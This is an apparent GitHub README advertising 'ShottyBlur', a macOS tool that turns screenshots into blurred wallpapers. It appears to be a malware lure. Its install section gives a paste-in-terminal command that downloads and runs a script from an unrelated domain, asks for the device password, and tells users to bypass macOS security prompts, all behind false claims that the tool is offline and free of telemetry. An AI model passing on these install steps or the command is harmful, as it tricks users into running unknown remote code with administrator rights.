 <p align="center">
  <img src="https://i.ibb.co/Lhr8NqQv/1603799096-shottyblur.png" alt="ShottyBlur macOS Banner" />
</p>

<h1 align="center">ShottyBlur for macOS</h1>

<p align="center">
  🌫️ Instantly turn screenshots into beautiful blurred wallpapers. One-click export.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Supports macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/180" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SHOTTYBLUR%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download ShottyBlur for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/wZpp77Ns/1603799084-1.jpg" alt="ShottyBlur Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is ShottyBlur?

**ShottyBlur** is a minimal macOS utility that transforms screenshots or images into elegant, blurred desktop wallpapers. Ideal for users who want a distraction-free background that still reflects their workspace or aesthetic.

With just one click, ShottyBlur applies high-quality blur filters and exports Retina-optimized wallpapers — perfect for MacBook or iMac screens. No design skills needed, no internet connection required.

Designed to be lightweight, fast, and entirely offline — with native support for **Apple Silicon (M1/M2/M3)**.

---

## ✅ Why Choose ShottyBlur?

- 🌫️ **Create Aesthetic Blur Wallpapers**  
- 🖼️ **Turn Screenshots into Backgrounds**  
- 📸 **Drag, Drop, Blur – Done**  
- 💻 **Perfect for Clean macOS Workspaces**  
- 🎯 **Retina-Optimized Wallpaper Output**  
- ⚡ **Lightweight & Fast Utility**  
- 🔒 **Works 100% Offline**  
- 🧠 **No Design Skills Needed**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/67NdmKrr/1603799019-2.jpg" alt="ShottyBlur Blurred Wallpaper Preview" />
  <br><br>
  <img src="https://i.ibb.co/wZQ82rZY/1603799064-3.jpg" alt="ShottyBlur Export Screen Screenshot" />
</p>

---

## 🚀 Key Features

- Auto-detects latest screenshots  
- One-click blur and export  
- Customize blur intensity  
- Supports all image formats  
- Retina wallpaper optimization  
- Offline use only – no sync  
- No UI clutter or distractions  
- Apple Silicon native binary

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow ShottyBlur under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Blur+Wallpaper+Generator-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-One+Click+Image+Blurring-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ ShottyBlur – Minimal, Blurred, Beautiful

Thanks for using **ShottyBlur for macOS**.  
A faster way to create clean, personalized wallpapers.

---

## 🧭 Usage Context

This utility is intended for offline, local image enhancement for aesthetic wallpaper creation.  
No telemetry, no syncing, and no third-party cloud use.

All processing is done on your machine.  
Not affiliated with Apple Inc. or design platforms.

---

## 🔍 Tags

```text
shottyblur for mac download, blurred wallpaper creator macos, screenshot to background blur tool mac, shottyblur macos retina wallpaper app, minimal blur wallpaper generator macbook, shottyblur m1 mac native utility, create blur wallpapers from screenshots mac, distraction free background tool mac, fast blur image export tool macos, customize blur level wallpaper app mac, offline macos wallpaper generator shottyblur, convert image to blur mac tool, generate smooth blurred wallpaper mac, desktop aesthetics blur background mac, shottyblur mac drag and drop blur app
